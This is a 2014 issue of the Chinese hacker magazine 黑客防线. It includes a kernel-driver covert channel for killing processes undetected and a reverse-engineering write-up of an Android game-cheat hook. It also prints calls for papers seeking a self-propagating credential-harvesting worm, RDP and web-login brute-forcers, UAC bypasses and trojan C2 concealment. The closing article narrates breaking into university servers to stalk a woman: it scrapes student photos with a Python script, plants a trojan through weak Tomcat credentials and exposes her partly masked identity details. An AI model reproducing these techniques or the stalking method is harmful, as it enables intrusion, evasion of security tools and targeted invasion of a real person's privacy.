隐蔽通信可以应对这种威胁。与加密的思路不同，隐蔽通信强调对信道的隐藏，即避免 Ring0 与 Ring3 进行通信这一事实被发现。那么哪些机制可以作为秘密信道呢？事实上，Windows x64 引入的 PatchGuard 机制禁止了传统的 SSDT Hook 等方法。作为替代，Windows 提供丰富的回调功能方便安全软件实现必要的功能。举例来说，通过 PsSetCreateProcessNotifyRoutine 设置的回调函数会在有进程创建时被调用。该回调能够得到新进程的各种信息，并且有权终止该进程（的创建）。此外，Windows 还提供文件、网络和注册表相关的回调。本文提供一种思路，通过注册表回调实现 Ring0-3 的隐蔽通信。具体实现并不复杂，Ring0 注册一个回调处理打开键值操作。如果操作来自我们的 Ring3 进程，则提取其中包含的进程名并设法结束它。Ring3 的任务比较轻松，只要按照约定（尝试）打开某个注册表键值就可以。下面以结束 calc.exe 为例，结合代码具体分析：

Ring3 的代码非常简单，只需调用 RegOpenKeyEx 打开 `SOFTWARE\Microsoft\WindowsNT\CurrentVersion\Image File ExecutionOptions\calc.exe` 即可。这里 calc.exe 可以替换为任意进程名。

```cpp
int main()
{
    HKEY ret;
    RegOpenKeyEx(HKEY_LOCAL_MACHINE,
        L"SOFTWARE\\Microsoft\\WindowsNT\\CurrentVersion\\Image File ExecutionOptions\\calc.exe",
        0,
        KEY_ALL_ACCESS,
        &ret);
    if (GetLastError() == NULL)
    {
        cout << "calc.exe Terminated!" << endl;
    }
    else
    {
        cout << "Something wrong." << endl;
    }
    return 0;
}
```

如果直接运行这段代码，RegOpenKeyEx 会失败，GetLastError 返回 Access is denied。而加载驱动后再运行这段代码，RegOpenKeyEx 调用会成功。下面来分析驱动代码。

DriverEntry 中调用 CmRegisterCallback 注册一个回调，其原型如下。注意我们必须保存返回的 Cookie 值以便在驱动卸载时取消该回调。

```cpp
NTSTATUS CmRegisterCallback(
    _In_ PEX_CALLBACK_FUNCTION Function,
    _In_opt_ PVOID Context,
    _Out_ PLARGE_INTEGER Cookie
);

NTSTATUS DriverEntry(IN PDRIVER_OBJECT pDriverObject,
                     IN PUNICODE_STRING pRegPath)
{
    pDriverObject->DriverUnload = DriverUnload;
    DbgPrint("Load!\n");

    CmRegisterCallback((PEX_CALLBACK_FUNCTION)RegistryCallback, 0,
                       &CallbackCookie);

    return STATUS_SUCCESS;
}

VOID DriverUnload(IN PDRIVER_OBJECT pDriverObject)
{
    DbgPrint("Unload\n");
    CmUnRegisterCallback(CallbackCookie);
}
```

RegistryCallback 回调只考虑 RegNtPreOpenKeyEx，即在打开一个键值时进行处理。有兴趣的读者可以处理其他值，以实现更复杂的功能。RegistryCallback 代码如下：

```cpp
NTSTATUS RegistryCallback(
    _In_ PVOID CallbackContext,
    _In_opt_ PVOID Argument1,
    _In_opt_ PVOID Argument2
)
{
    switch ((REG_NOTIFY_CLASS)(DWORD64)Argument1)
    {
    case RegNtPreOpenKeyEx:
    {
        PREG_OPEN_KEY_INFORMATION pOpenKeyInfo =
            (PREG_OPEN_KEY_INFORMATION)Argument2;
        PCM_KEY_BODY OpenKeyBody =
            (PCM_KEY_BODY)pOpenKeyInfo->RootObject;
        PEPROCESS pCallingProcess;
        if (PsLookupProcessByProcessId(OpenKeyBody->ProcessID,
            &pCallingProcess) == STATUS_INVALID_PARAMETER)
        {
            DbgPrint("Invalid PID.\n");
            break;
        }
        if (strcmp(PsGetProcessImageFileName(pCallingProcess),
            "Ring3.exe") == 0)
        {
            //DbgPrint("KeyName: %wZ\n", pOpenKeyInfo->CompleteName);
            WCHAR ProcessName[MAX_LENGTH] = { 0 };
            if (GetProcessNameFromKeyName(pOpenKeyInfo->CompleteName->Buffer,
                pOpenKeyInfo->CompleteName->Length / 2, ProcessName))
            {
                if (KillProcessByName(ProcessName))
                {
                    DbgPrint("%ws terminated.\n", ProcessName);
                    return STATUS_CALLBACK_BYPASS;
                }
            }
        }

        break;
    }
    default:
        break;
    }

    return STATUS_SUCCESS;
}


```

RegistryCallback 首先判断调用进程是否为 Ring3.exe，如果不是，则直接放过。如果是，则调用 GetProcessNameFromKeyName 进一步判断打开的键值名是否以 `SOFTWARE\Microsoft\WindowsNT\CurrentVersion\Image File ExecutionOptions\` 开头。如果是，则将名称的后半部分（calc.exe）取出，作为将要结束的进程名传给 KillProcessByName。作为示例，KillProcessByName 结束进程的方法非常简单：首先根据进程名得到 EPROCESS，从 EPROCESS 得到 PID，然后调用 ZwTerminateProcess 结束进程。由于回调运行在 Ring0 下，有数不清的方法可以结束进程，这里不再赘述。

测试结果如图所示，运行 Ring3.exe 后，calc.exe 被结束，DbgView 中得到的输出如图 1 所示。

| # | Time | Debug Print |
|---|---|---|
| 1 | 0.00000000 | Load! |
| 2 | 6.2270894 | Process Name: calc.exe |
| 3 | 6.22711325 | calc.exe found at: FFFFFA80070F65E0. |
| 4 | 6.22711615 | PID is: 2208 |
| 5 | 6.22731256 | calc.exe terminated. |
| 6 | 18.8264463 | Unload |

图 1 DbgView 输出

由于我们的驱动处理 RegNtPreOpenKeyEx，并在得到有关参数后立刻返回 STATUS_SUCCESS，所以下层的驱动根本没有机会处理此操作。而现在的安全软件一般倾向于深入底层，所以隐蔽性较好。另一方面，即使该操作被截获，也很难就此断定其与进程被结束（或其他操作）有必然联系。如果想要提高隐蔽性，还可以遍历注册表键值，这样操作会与试图设置映像劫持非常相似。

注册表是一个非常庞大的系统，有许多地方可以用来进行隐蔽通信。除此之外，网络和文件回调都有利用的可能。我们有理由相信，如果恰当地选择通信渠道并加以伪装，则非常有可能躲过监控——毕竟想要从成千上万条消息中找出一条可疑的操作是非常困难的。

（完）

## Android 版 xx 助手详细分析

文/图 莫灰灰

近些年来，移动互联网的大肆崛起，潜移默化中影响着人们的生活和工作习惯。当腾讯的微信平台接入手机游戏之后，移动端的游戏也开始火了起来，这更是改变了人们长久以来的游戏娱乐习惯。茶余饭后，朋友们掏出手机打个飞机已是习以为常的事情了。加之移动客户端游戏开发周期短、投入少等特点，很多初创公司也纷纷投入到这个领域中来，并且很多游戏都取得了不错的成绩。就在前不久，全球游戏巨头暴雪的新游戏《炉石传说》也推出了 iPad 版本，更加印证了移动端的重要性。

如同 PC 端一样，移动端游戏的兴起，自然也就造就了游戏外挂产业的火热市场。大名鼎鼎的 xx 助手就是这样一款移动端的游戏外挂软件，它不仅功能强大，而且兼容 iOS 和 Android 等多平台系统。正所谓树大招风，接下来，我们就来对其内部实现做一个详细的分析，来一窥 Android 平台下游戏外挂的实现原理。

> 特此声明：本文涉及的代码与分析内容仅供学习交流使用，任何个人或组织不得使用文中提到的技术做违法犯罪活动，否则由此引发的任何后果与法律责任本人概不负责。

## 测试环境

- 红米 TD 版
- MIUI-JHACNBA13.0（已越狱）
- xx 助手 Beta1.1.2

## 使用工具

- IDA
- Apktool
- DDMS
- jd-gui

## 程序分析

在分析程序之前，我首先去下载了《欢乐斗地主》《全民飞机大战》《天天酷跑》三款腾讯的热门游戏，打开 xx 助手，界面如图 1 所示。
图 1

此时，xx 助手已经检测到机器上安装的游戏了，在 xx 助手里面下载相应游戏的外挂程序之后点击“启动游戏”来打开天天酷跑，界面如图 2 所示。
图 2

很明显，从 xx 助手中打开游戏会发现右边多了一个设置按钮，点击设置，在弹出的界面中我们可以设置相应的“飞行距离”“奖励倍数”等。

打开 DDMS，使用 File Explorer 工具定位到 `/data/data/com.xxAssistant`，查看目录结构如图 3 所示。
图 3

仔细查看图 3 中的 app_plugin 目录，发现其中恰好有三个子级目录，分别对应了酷跑、欢乐斗地主和飞机大战的外挂插件。

到目前为止，单从这个目录结构中，我们大致可以得出如下一个猜想，即：xx 助手主程序只是一个启动器，用来启动各个游戏外挂，更多时候可以把它理解为是一个游戏外挂的发布平台，本身并不具备修改游戏的功能。而每一个插件目录才是具体实现某个游戏的外挂程序。例如，拿 103 目录来说，xxUI.apk 是上述图 2 中看到的那个游戏中出现的设置界面，libxxkupao.so 是实现 hook 游戏关键函数、修改游戏功能的重要文件，而 xxplist 可能是某个配置文件。为了印证自己的猜测是否正确，我们利用工具把 103 插件目录导出到本地来做详细分析。

## 验证猜想

- 1）**com.tencent.pao.xxplist**

用文本编辑器打开插件目录下的 com.tencent.pao.xxplist 文件，内容如图 4。
图 4

经过简单的分析，此文件确实是为 xx 助手的配置文件。其中，game-name 字段为被操作的游戏包名；apk-path 字段为具体外挂的 apk 文件；ui-name 字段则是外挂启动后的主 Activity；activity-name 字段为游戏的主 Activity；so-path 字段则为具体实现 hook 游戏相关函数、patch 游戏进程的主要文件。

- 2）**xxzhushou_android.apk**

此 apk 文件为 xx 助手的安装文件。经过详细分析，xx 助手主程序主要实现了下载指定游戏外挂、启动游戏、解析上述 xxplist、把外挂 dex 注入到游戏进程等功能。而且这一整套东西的实现与具体的某个游戏是耦合的，堪称是一个游戏外挂的发布平台（由于我们今天主要分析的是游戏外挂的实现原理，下回有时间再写一篇详细分析 xx 助手的文章，所以在这里，关于 xx 助手本身的功能就先一笔带过了）。

- 3）**xxUI.apk**

这个文件包是进入游戏之后主要显示的外挂设置界面，具体如图 2 所示。下面我们来具体分析下其实现原理。

解包 xxUI.apk，使用 Java Decompiler 工具查看解密出来的类 Java 代码，代码结构如图 5 所示。
图 5

发现代码并没有经过加密混淆，下面我们首先来看看 xxkupao 这个类的实现，如图 6 所示。
图 6

这个类的 init 函数首先保存 so path 路径，然后调用 show 函数初始化界面布局。show 函数中调用 initView 来创建 Setting 和 About View，并使用线性布局来排版界面。接下来我们来看看 Setting View 的实现，如图 7。
图 7

这个 SettingView 类的大致功能是，首先保存 so 文件的路径，即 `/data/data/com.xxAssistant/app_plugin/103/libxxkupao.so`，然后调用 `initNativeFunc` 函数加载 so 文件，并开始 patch 游戏的相关函数，接着调用 `initView` 函数初始化界面中的各种控件。具体来看下 `initNativeFunc` 函数，图 7 中这个函数反编译出来的代码并不是很准确，大致的代码应该是这样的，如图 8 所示。

```java
private void initNativeFunc()
{
    if (mSoPath != null) {
        System.load(mSoPath);    // 加载so

        setBonus(1);             // 设置奖励倍数
        setRushDistance(400);    // 设置飞行距离
        setIsInvincibleAndMagnet(isInvincibleAndMagnet); // 设置自动穿透和飞行模式
        setIsUnlimitJump(isJumpOpen); // 是否开启无限跳跃

        if (!Build.CPU_ABI.equals("armeabi")) { // 根据cpu的不同，设置不同的hook
            xxdohook(2);
        }
        else {
            xxdohook(1);
        }
    }
}
```

图 8

`initNativeFunc` 函数首先加载 so 文件，然后通过调用 set 方法设置相应的外挂属性。最后判断 CPU 的类型，实施不同的 hook 方案（因为天天酷跑这个游戏会根据 CPU 的不同而释放不同的游戏 so 文件，所以 hook 的时候代码偏移都有所不同，这里 hook 方案的不同主要就是为了配合游戏释放出来的文件不同）。其中这里的 set 方法和 xxdohook 函数都是 JNI 调用，即在 Java 层中调用底层 C 或者 C++ 的代码，不知道这方面知识的同学可以学习下 NDK 开发。

## 4）libxxkupao.so

通过上面的分析之后，我们知道 xxUI.apk 其实是通过 JNI 调用实现的，具体功能的实现都在这个 so 文件中。具体来看下 `setBonus`，即设置奖励倍数方法的具体实现吧，其他都大同小异了。使用 IDA 打开 `libxxkupao.so`，定位到 `Java_com_xxAssistant_UI_xxkupaoSettingView_setBonus` 函数，汇编代码如图 9 所示。

```asm
EXPORT Java_com_xxAssistant_UI_xxkupaoSettingView_setBonus
Java_com_xxAssistant_UI_xxkupaoSettingView_setBonus

Bonus   = -0x24
var_20  = -0x20
var_1C  = -0x1C
var_0   = 0

STR   R11, [SP,#-4+var_0]!
ADD   R11, SP, #0
SUB   SP, SP, #0x14
STR   R0, [R11,#0x14+var_1C]
STR   R1, [R11,#0x14+var_20]
STR   R2, [R11,#0x14+Bonus]
LDR   R3, [R11,#0x14+Bonus]
CMP   R3, #1
MOVLT R3, #1
MOV   R2, R3
...
BX    LR
```

图 9

JNI 调用的前面两个参数是系统传进来的，我们不必关心。参数 3 是我们自己传进来的奖励倍数，是一个整型的数值，经过简单处理之后把奖励倍数保存为全局变量，供后面函数调用使用。

下面我们来看看 xxdohook 函数的实现，由于函数太长，主要以奖励倍数功能的实现开始分段讲解。

- 1. 保存传进来的参数到局部变量中，参数 3 即是我们自己传进来的参数，根据 CPU 类型来决定 hook 类型。

```asm
.text:00001AA4 EXPORT Java_com_xxAssistant_UI_xxkupaoSettingView_xxdohook
.text:00001AA4 Java_com_xxAssistant_UI_xxkupaoSettingView_xxdohook
.text:00001AA4 hook_type = -0x18
.text:00001AA4 var_14    = -0x14
.text:00001AA4 var_10    = -0x10
.text:00001AA4 var_C     = -0xC
.text:00001AA4 so_base   = -8

STMFD SP!, {R11,LR}
ADD   R11, SP, #4
SUB   SP, SP, #0x18
STR   R0, [R11,#var_10]
STR   R1, [R11,#var_14]
STR   R2, [R11,#hook_type]
```

图 10

- 2. 获取游戏进程中 `libGameApp.so` 的基址。

```asm
.text:00001B30 BL   getpid
.text:00001B34 MOV  R3, R0
.text:00001B38 MOV  R0, R3
.text:00001B3C LDR  R3, =(aLibgameappSo - 0x1B48)
.text:00001B40 ADD  R3, PC, R3 ; "libGameApp.so"
.text:00001B44 MOV  R1, R3
.text:00001B48 BL   get_module_base
.text:00001B4C STR  R0, [R11,#so_base]
.text:00001B50 LDR  R3, [R11,#so_base]
```

图 11

- 3. 根据 CPU 的不同，Java 层会传递不同的参数下来，用以实现不同的 hook。实现思路是一样的，主要是因为不同的 CPU，游戏释放出来的 so 文件是不同的，所以两种 hook 类型基本上只是文件偏移的不同，下面我们选择其中的一个分支来进行详细介绍。

```asm
.text:00001B80 loc_1B80
.text:00001B80 LDR R3, [R11,#hook_type]
.text:00001B84 CMP R3, #2
.text:00001B88 BNE loc_249C
```

图 12

- 4. 获取到游戏 so 文件基址之后，调用 `dlsym` 方法根据符号名试图解析出 AddScore 函数的地址。

```asm
loc_1D3C
MOV R0, #0xFFFFFFF ; handle
LDR R3, =(...) ; "...AddScore..."
ADD R3, PC, R3
MOV R1, R3 ; name
BL dlsym
MOV R3, R0
...
STR R2, [R3]
```

图 13

- 5. 如果通过符号找到了相应函数的地址，那么就调用 `MSHookFunction` 函数进行 hook 游戏的关键 call，以此来改变游戏的执行流程。（MSHookFunction 是 Cydia Substrate 的库函数，此框架功能强大，支持 Android 和 iOS 的 hook）

```asm
loc_1DA8
LDR R3, =(g_AddScore_hook_address - ...)
LDR R3, [R3]
MOV R0, R3
LDR R3, =(mine_AddScore - ...)
MOV R1, R3
LDR R3, =(origin_addScore - ...)
MOV R2, R3
BL MSHookFunction
```

图 14

- 6. 当然，通常情况下，我们并没有游戏的符号文件，所以在第（4）步中调用 `dlsym` 函数解析符号地址的时候就已经失败了，那么此时函数便会根据硬编码地址来进行 hook。

```asm
.text:00002288 ...
MOV R3, 0x16FAE0
... ; 基地址加上一个偏移，并把值保存到 R2
... ; 把要 hook 的地址保存到全局变量中
... ; 把要 hook 的地址赋值给 R0
... ; 把自己实现的 stub 函数地址赋值给 R1
... ; 函数调用后会返回原始地址
BL MSHookFunction ; 开始 hook


```

图 15

- 7. 至此，游戏的 patch 工作已经全部完成，接下来就可以开始玩游戏了。游戏在运行过程中，会进入到我们的 hook 函数中。例如，一局游戏结束后，系统会给予一定奖励，此时便会进入我们的 `mine_AddScore` 函数中开始执行，下面我们来看看此函数的具体实现。
图 16

经过分析，此函数的实现逻辑其实很简单，例如我设置了奖励倍数为 10，那么 hook 代码就会循环调用 10 次游戏本身的 `addScore` 函数来实现多倍奖励的功能。总体的调用过程用一张图来说明就更加形象了，如图 17 所示。
图 17

## 总结

游戏的设计和架构在很大程度上与网络资源信息相关。基于移动端网络的不稳定性，以及国内网络流量资费比较昂贵等特点，大多数移动端游戏都会将绝大部分的功能放在本地来实现，只有极少部分重要的信息才会与服务器端进程同步，例如装备、资金的变更。因此，游戏外挂只要 patch 掉本地游戏的关键函数就能达到类似无敌、穿墙、飞行等功能。

基于以上的特点，游戏作者可以额外地开一个线程来定时检测自身代码是否被恶意篡改了。但是，线程和定时器又是很容易被外挂 patch 掉的，因此，不管是 PC 端游戏还是移动端游戏，外挂与游戏的斗争始终都不会结束。

（完）

### 2014 年第 6 期杂志特约选题征稿

黑客防线于 2013 年推出新的约稿机制，每期均会推出编辑部特选的选题，涵盖信息安全领域的各个方面。对这些选题有兴趣的读者与作者，可联系投稿信箱：675122680@qq.com、hadefence@gmail.com，或者 QQ：675122680，确定有意的选题。按照要求如期完成稿件者，稿酬按照最高标准发放！特别优秀的稿酬另议。第 6 期的部分选题如下，完整的选题内容请见每月发送的约稿邮件。

## 1. 绕过 Windows UAC 的权限限制

自本期始，黑客防线杂志长期征集有关绕过 Windows UAC 权限限制的文章（已知方法除外）。

- Windows UAC 高权限下，绕过 UAC 提示进入系统的方法；
- Windows UAC 低权限下，进入系统后提高账户权限的方法。

## 2. Windows7 屏幕保护密码获取

非重启系统状态下，本机（非远程受控机）屏幕保护已启动，本地获取 Windows7 屏幕保护密码的方法。

## 3. 虚拟机穿透

主机安装有虚拟机，现已远程控制虚拟机，寻求如何利用虚拟机的弱点，穿透虚拟机，进而控制本机的方法。

## 4. Linux 自动检测网络安全

- 要求：
  1. 自动收集当前 Linux 系统的信息，如 uname、hosts、passwd、shadow、ifconfig、ps、netstat、history 等；
  2. 通过我们提供的账号密码库自动测试远程登录，若登录成功则将远程主机的地址、端口、账号、密码以及从哪一台机器登录等详细记录；
  3. 将该程序自动复制到第 2 步成功登录的远程 Linux 主机，并重复 1、2、3 步操作；
  4. 可以手动制定结束条件，比如测试主机的个数，目的是防止重复登录；
  5. 将 1、2、3 中收集或记录的信息回传到一开始的主机；
  6. 完成操作后清除相关的操作记录。

## 5. 暴力破解 3389 远程桌面密码

- 要求：
  1. 针对 Windows 3389 远程桌面实现暴力破解密码；
  2. 读取指定的用户名和密码字典文件；
  3. 采用多线程；
  4. 所有函数都必须判断错误值；
  5. 使用 VC++2008 编译工具实现，控制台程序；
  6. 代码写成 C++ 类，直接声明类，调用类成员函数就可以调用功能；
  7. 支持 Windows XP/2003/2008。

## 6. Web 服务器批量扫描破解

- 1）针对目标 IP 参数要求
  - 10.10.0.0/16
  - 10.10.3.0/24
  - 10.10.1.0-10.255.255.255

- 2）针对目标 Web 服务器扫描要求  
  可以识别目标 Web 服务器上运行的 Web 服务器程序，比如 APACHE 或者 IIS 等，具体参考如下：
  - Tomcat
  - Weblogic
  - Jboss
  - Apache
  - JOnAS
  - WebSphere
  - Lotus Server
  - IIS(Webdav)
  - Axis2
  - Coldfusion
  - Monkey HTTPD
  - Nginx

- 3）针对目标 Web 服务器后台扫描  
  针对目标进行后台地址搜索。

- 4）针对目标 Web 后台密码破解  
  搜索到 Web 登录后台以后，尝试弱口令破解，可以指定字典。

## 7. 木马控制端 IP 地址隐藏

要求：

- 在远程控制配置 server 时，一般情况下控制地址是写入被控端的，当木马样本被捕获分析时，可以分析出控制地址。针对这个问题，研究控制端地址隐藏技术，即使木马样本被捕获，也无法轻易发现木马的控制端真实地址。
- 使用 C 或 C++ 语言，VC6 或者 VC2008 编译工具实现。

## 8. Web 后台弱口令暴力破解

说明：  
针对国际常用建站系统以及自编写的 Web 后台无验证码登录形式的后台弱口令账号密码暴力破解。

要求：

- 能够自动或自定义抓取建站系统后台登录验证脚本 URL，如 WordPress、Joomla、Drupal、MetInfo 等常用建站系统；
- 根据抓取提交账号密码的 URL，可自动或自定义选择提交方式，自动或自定义提交登录的参数，这里的自动指的是根据默认字典；
- 可自定义设置暴力破解速度，破解的时候需要显示进度条；
- 高级功能：默认字典跑不出来的后台，可根据设置相应的 GOOGLE、BING 等搜索引擎关键字，智能抓取并分析是否是后台以及自动抓取登录 URL 及其参数；默认字典跑不出来的账号密码可通过 GOOGLE、BING 等搜索引擎抓取目标相关的用户账户、邮箱账户，并以这些账户简单构造爆破账号密码，如用户为 admin，密码可自动填充为域名，用户为 abcd@abcd.com，账户密码就可以设置为 abcd、abcd 以及 abcd、abcd123 或 abcd、abcd123456 等简单账号密码；
- 拓展：尽可能地多搜集国外常用建站系统后台来增强该软件查找并定位后台 URL 能力；暴力破解要稳定，后台 URL 字典以及账号密码字典可自定义设置等。

## 9. 编写端口扫描器

要求：

- 扫描出目标机器开放的端口，支持 TCP Connect、SYN、UDP 扫描方式；
- 扫描方式采用多线程，并能设置线程数；
- 将功能编写成 DLL，导出功能函数；
- 代码写成 C++ 类，直接声明类，调用类成员函数就可以调用功能；
- 尽量多做出错异常处理，以防程序意外崩溃；
- 使用 VC++2008 编译工具编写；
- 支持系统 Windows XP/2003/2008/7。

## 10. Android WIFI Tether 数据转储劫持

说明：

WIFI Tether（开源项目）可以在 ROOT 过的 Android 设备上共享移动网络（也就是我们常说的 Wi-Fi 热点），请参照 WIFI Tether 实现一个程序，对流经本机的所有网络数据进行分析存储。

要求：

- 开启 WIFI 热点后，对流经本机的所有网络数据进行存储；
- 不同的网络协议存储为不同的文件，比如 HTTP 协议存储为 HTTP.DAT；
- 针对 HTTP 下载进行劫持，比如用户下载 `www.xx.com/abc.zip`，软件能拦截此地址并替换 `abc.zip` 文件。

## 11. 突破 Windows7 UAC

说明：

编写一个程序，绕过 Windows7 UAC 提示，启动另外一个程序，并使这个程序获取到管理员权限。

要求：

- Windows UAC 安全设置为最高级别；
- 系统补丁打到最新；
- 支持 32 位和 64 位系统。

## 2014 年征稿启示

《黑客防线》作为一本技术月刊，已经 14 年了。这十多年以来基本上形成了一个网络安全技术坎坷发展的主线，陪伴着无数热爱技术、钻研技术、热衷网络安全技术创新的同仁们实现了诸多技术突破。再次感谢所有的读者和作者，希望这份技术杂志可以永远陪你一起走下去。

投稿栏目：

## 首发漏洞

要求原创必须首发，杜绝一切二手资料。主要内容集中在各种 0Day 公布、讨论，欢迎第一手溢出类文章，特别欢迎主流操作系统和网络设备的底层 0Day，稿费从优，可以洽谈深度合作。有深度合作意向者，直接联系总编辑 binsun20000@hotmail.com。

## Android 技术研究

黑防重点栏目，对 Android 系统的攻击、破解、控制等技术的研究。研究方向包括 Android 源代码解析、Android 虚拟机，重点欢迎针对 Android 下杀毒软件机制和系统底层机理研究的技术和成果。

## 本月焦点

针对时下的热点网络安全技术问题展开讨论，或发表自己的技术观点、研究成果，或针对某一技术事件做分析、评测。

#### 漏洞攻防

利用系统漏洞、网络协议漏洞进行的渗透、入侵、反渗透、反入侵，包括比较流行的第三方软件和网络设备 0Day 的触发机理，对于国际国内发布的 POC 进行分析研究，编写并提供优化的 exploit 思路和过程；同时可针对最新爆发的漏洞进行底层触发、shellcode 分析以及对各种平台的安全机制研究。

## 脚本攻防

利用脚本系统漏洞进行的注入、提权、渗透；国内外使用率高的脚本系统的 0Day 以及相关防护代码。重点欢迎利用脚本语言缺陷和数据库漏洞配合的注入以及补丁建议；重点欢迎 PHP、JSP 以及 HTML 边界注入的研究和代码实现。

## 工具与免杀

巧妙的免杀技术讨论；针对最新 Anti 杀毒软件、HIPS 等安全防护软件技术的讨论。特别欢迎突破安全防护软件主动防御的技术讨论，以及针对主流杀毒软件文件监控和扫描技术的新型思路对抗，并且欢迎在源代码基础上免杀和专杀的技术论证！最新工具，包括安全工具和黑客工具的新技术分析，以及新的使用技巧的实例讲解。

## 渗透与提权

黑防重点栏目。欢迎非 Windows 系统、非 SQL 数据库以外的主流操作系统渗透、提权技术讨论，特别欢迎内网渗透、摆渡、提权的技术突破。一切独特的渗透、提权实例均在此栏目发表，杜绝任何无亮点技术文章！

## 溢出研究

对各种系统包括应用软件漏洞的详细分析，以及底层触发、shellcode 编写、漏洞模式等。

## 外文精粹

选取国外优秀的网络安全技术文章，进行翻译、讨论。

#### 网络安全顾问

我们关注局域网和广域网整体网络防杀病毒、防渗透体系的建立；ARP 系统的整体防护；较有效的不损失网络资源的防范 DDoS 攻击技术等相关方面的技术文章。

## 搜索引擎优化

主要针对特定关键词在各搜索引擎的综合排名、针对主流搜索引擎的多关键词排名的优化技术。

#### 密界寻踪

关于算法、完全破解、硬件级加解密的技术讨论和病毒分析、虚拟机设计、外壳开发、调试及逆向分析技术的深入研究。

#### 编程解析

各种安全软件和黑客软件的编程技术探讨；底层驱动、网络协议、进程的加载与控制技术探讨和 virus 高级应用技术编写；以及漏洞利用的关键代码解析和测试。重点欢迎 C/C++/ASM 自主开发独特工具的开源讨论。

## 投稿格式要求

- 1）技术分析来稿一律使用 Word 编排，将图片插入文章中适当的位置，并明确标注“图1”“图2”；
- 2）在稿件末尾请注明您的账户名、银行账号、以及开户地址，包括你的真实姓名、准确的邮寄地址和邮编、QQ 或者 MSN、邮箱、常用的笔名等，方便我们发放稿费。
- 3）投稿方式和周期：采用 E-Mail 方式投稿，投稿 mail：hadefence@gmail.com、QQ：675122680。投稿后，稿件录用情况将于 1～3 个工作日内回复，请作者留意查看。每月 10 日前投稿将有机会发表在下月杂志上，10 日后将放到下下月杂志，请作者朋友注意，确认在下一期也没使用者，可以另投他处。限于人力，未采用的恕不退稿，请自留底稿。

**重点提示：**严禁一稿两投。无论什么原因，如果出现重稿——与别的杂志重复——与别的网站重复，将会扣发稿费，从此不再录用该作者稿件。

- 4）稿费发放周期：稿费当月发放（最迟不超过 2 个月），稿费从优。欢迎更多的专业技术人员加入到这个行列。
- 5）根据稿件质量，分为一等、二等、三等稿件，稿费标准如下：
  - 一等稿件 900 元/篇
  - 二等稿件 600 元/篇
  - 三等稿件 300 元/篇
- 6）稿费发放办法：银行卡发放，支持境内各大银行借记卡，不支持信用卡。
- 7）投稿信箱及编辑联系  
  投稿信箱：675122680@qq.com、hadefence@gmail.com  
  编辑 QQ：675122680

在攻与防的对立统一中寻求突破

# 黑客防线

6  总第162期  2014

网站全新改版，欢迎访问：http://www.hacker.com.cn
- Com Hook 实现监控文件复制
- 微软 GS 缓冲区安全解决方案探讨
- 实战 UC_Key 获取 Discuz! x2.5 论坛 Webshell
- 支付宝钱包手势密码破解实战
- 编程结束 360 进程并打造自己的 Inline Hook 保护进程
- 社工搞定一面之交的“女神”

## 《黑客防线》6期文章目录

总第162期2014年

#### 漏洞攻防

- 社工搞定一面之交的“女神”（独猫）……3
- 实战 UC_Key 获取 Discuz! x2.5 论坛 Webshell（simeon）……7
- DedeCMS 系统 recommand.php 文件 SQL 注入漏洞获取 Webshell（零）……13
- 从一次未完成的渗透分析 Cookie（haxsscker）……17

#### 编程解析

- Com Hook 实现监控文件复制（李旭昇）……24
- 编程结束 360 进程并打造自己的 Inline Hook 保护进程（尹相辰）……27
- 微软 GS 缓冲区安全解决方案探讨（木羊）……34
- Windows 的独家文件系统 NTFS（王晓松）……38

### Android远程监控技术

- 支付宝钱包手势密码破解实战（莫灰灰）……45

- 2014 年第 7 期杂志特约选题征稿……58
- 2014 年征稿启示……61

## 社工搞定一面之交的“女神”

文/图 独猫

朋友在校园的图书馆快乐地玩着，准备离开时，在门口遇到了一个漂亮的女孩，清纯可爱。两人四目相接的那一瞬间，一股微弱的电流穿过了他的心脏。最终，朋友还是成功地追到了她。下面，我们就一起来回顾一下朋友是如何追到漂亮女孩的。

首先，只是一面之交，其他信息都不知道。所以，能了解她的唯一方式，就是照片。因此，朋友想到了搞定有学生照片的服务器。经过一番搜寻，来到 registry.***.edu.cn。打开网站，进入自己的账号，查看照片。发现 URL 为 http://registry.xxxx.edu.cn/xsxx/photo.aspx?id=201201xxxxx。查看后发现照片 URL 中 ID 参数为自己的校园卡一卡通卡号，这个卡号明显是顺序排下来的。于是打算写个程序批量拖下来。上 Python 代码，因为校内很快，所以也用不到多线程了。

```python
import urllib
url="http://registry.xxx.edu.cn/xsxx/photo.aspx?id=201201"
save="z:\\image\\201201"
id=1
print "%05d"%12
while(id<100):
    str="%05d"%id
    urllib.urlretrieve(url+str,save+str+".jpg")
    print url+str
    id=id+1


```

之后就是苦苦地手动搜寻了。功夫不负有心人，终于找到了照片，记下一卡通号，我们称作 20120100001。现在有了一卡通号，该搜寻其他信息了。比如学号，这样就可以知道她是哪个学院哪个班了。接下来该入侵卡务管理中心了。

首先找到一卡通中心 ykt.xxx.edu.cn，经过抓取，大体看了下，发现没有什么漏洞。尝试看看有没有越权漏洞，发现基本所有的功能都有判断用户，但同时发现某个查询数据包有参数 getinfo=http://10.111.60.222/xxxxxx/xxxx，所以，真正的查询数据库或者查询 API 还是在 10.111.60.222 这台服务器上。这台服务器是朋友以前攻破过的（简略描述拿下过程：8080 端口有 tomcat，manage 管理目录存在，用牛族 tomcat 爆破，得弱口令 tomcat、tomcat222，上传 war 木马，访问即可得 webshell）。重新找到 webshell，whoami 看了一下，是 administrator 用户。Tasklist 看了下没有杀毒软件，直接上传木马，得到最高权限。

先远程查看有哪些文件比较可疑，远程连接上去，发现 Program Files 下的 Sios 系统比较可疑。为了防止打草惊蛇，下载到本地，结果发现无法使用，提示无法注册网络。查看远端注册表，也没有直接看到有用的配置信息，看来只能等没人的时候用远程桌面了。等到晚上，拿出木马，远程桌面连接上去，发现有“持卡人信息查询功能”，输入学号之后，成功提取出了她的有关信息，如图 1 所示。
图1

重新整理下已有信息：

- 卡通卡号：20120100001
- 姓名：阿**
- 身份证号：15****19940620****
- 生日：94.06.20
- 身份证所在地：内蒙古自治区呼和浩特市土默特左旗（看她的姓氏，应该就是内蒙古人）

有了这些信息，该收集更多的信息了。比如我们学校泄漏最多的就是网络中心的信息。以前网络中心存在 SQL 注入，朋友还曾经把数据库给入侵了，是 13 年的库。库的结构如图 2 所示。
图2

漏洞现在已经修复，不管了，先进行搜索一下，竟然没搜索出来。好吧，看样子还是需要亲自看下。校园卡网络中心默认密码是身份证号后 6 位，一般人也都不改。里面包含很多信息，如寝室楼和寝室号、联系电话、IP、MAC 等（我也没改，因为我没开通校园网，所以没什么信息），用身份证号后六位成功登录。如图 3 所示。

| 字段 | 值 |
|---|---|
| 姓名 | 阿** |
| 所在班级或单位 | 经济学院 |
